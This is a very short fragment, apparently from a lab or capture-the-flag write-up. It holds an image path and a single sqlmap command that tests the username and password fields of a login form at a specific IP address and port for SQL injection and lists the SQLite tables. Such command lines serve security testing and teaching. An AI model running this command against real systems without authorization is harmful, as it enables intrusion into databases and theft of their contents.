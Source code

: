 python sqlmap.py --dbms=sqlite3 -u http://34.16.207.52:3635/login --data "username=&password=" --tables